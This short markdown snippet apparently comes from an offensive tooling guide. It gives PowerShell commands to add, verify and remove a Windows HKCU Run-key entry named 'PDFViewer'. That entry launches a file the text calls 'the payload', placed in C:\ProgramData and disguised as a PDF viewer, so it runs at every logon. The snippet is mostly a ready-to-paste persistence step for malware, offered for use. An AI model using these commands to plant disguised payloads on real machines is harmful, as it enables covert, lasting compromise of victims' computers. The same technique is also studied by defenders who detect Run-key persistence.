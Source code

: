 ### PowerShell Command for Registry Persistence

PowerShell can execute external executables like `reg.exe` seamlessly. You can paste it directly into a PowerShell window, and it'll behave the expected way. The payload is in `C:\ProgramData\pdfviewer.exe`.

#### Adding the Registry Entry (PowerShell)

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PDFViewer" -Value "C:\ProgramData\pdfviewer.exe" -PropertyType String -Force
```

- This creates or updates the `PDFViewer` value in the HKCU Run key.
- `-Force` overwrites if it already exists (like `/f` in the cmd version).

#### Verification (PowerShell)
```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PDFViewer"
```
- Expected output: Something like `PDFViewer : C:\ProgramData\pdfviewer.exe` (plus other properties).

#### Removal/Cleanup (PowerShell)
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PDFViewer" -Force
```
